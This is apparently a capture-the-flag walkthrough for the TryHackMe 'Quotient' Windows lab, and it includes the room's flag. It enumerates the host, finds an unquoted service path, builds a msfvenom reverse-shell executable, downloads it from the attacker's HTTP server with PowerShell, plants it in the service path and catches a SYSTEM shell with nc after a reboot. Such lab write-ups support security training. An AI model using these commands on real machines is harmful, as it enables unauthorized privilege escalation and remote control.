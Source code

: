 # [Quotient](https://tryhackme.com/room/quotient)

> Grammar is important. Don't believe me? Just see what happens when you forget punctuation.

## Connecting

use Remmina to log into the machine

![image](https://user-images.githubusercontent.com/90561566/212108979-46690c5e-0411-4eac-bfac-bf90b7635596.png)

## Enumeration

open cmd and start enumerate

```
systeminfo
```

![image](https://user-images.githubusercontent.com/90561566/212110846-63406f21-4cd1-466d-966a-ad8e78a013d6.png)

```
net user
```

![image](https://user-images.githubusercontent.com/90561566/212111046-c385d822-f07c-41e0-b7d0-029e53131edb.png)

Check `whoami /priv`. This can reveal some very easy ways to escalate, but we're unlucky this time:

![image](https://user-images.githubusercontent.com/90561566/212111225-7aef4c5e-7e52-4702-83d1-8f938bcd4f0f.png)

list all services which contains no space (very useful with abnormal)

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

![image](https://user-images.githubusercontent.com/90561566/212112229-c5355cdb-a2ca-42b1-8855-bd3131d03343.png)

Get some more information about the service

```
sc qc "Development Service"
```

![image](https://user-images.githubusercontent.com/90561566/212112847-f9b44b80-1223-482d-bb80-0cf303233b42.png)

This path is definetly unquoted. The Start Type is AUTO_START, so we have to look at this again

Upon boot (because of Start Type: AUTO_START) this service searches for the exe in this order:

+ C:\Program.exe
+ C:\Program Files\Development.exe
+ C:\Program Files\Development Files\Devservice.exe
+ C:\Program Files\Development Files\Devservice Files\Service.exe

Generate a payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.0.74 LPORT=4444 -f exe -o Devservice.exe
python3 -m http.server
```

```
cd C:\Program Files\Development Files
powershell
wget http://10.8.0.74:8000/Devservice.exe -OutFile Devservice.exe
dir
```

![image](https://user-images.githubusercontent.com/90561566/212116379-7c7b0747-2f51-4391-8e1c-e547f0a02196.png)

open listener

```
nc -vlnp 4444
```

restart the machine

```
shutdown /r /t 0
```

after reboot, when it turn on back, you will get the shell

![image](https://user-images.githubusercontent.com/90561566/212118234-81488a29-5adc-4f65-bf23-854e3fb174b2.png)

![image](https://user-images.githubusercontent.com/90561566/212118624-9e5e2a62-512a-4f23-aca1-a6d22d158211.png)

| Flag | flag.txt |
| --- | --- |
| Answer | THM{USPE_SUCCESS} |
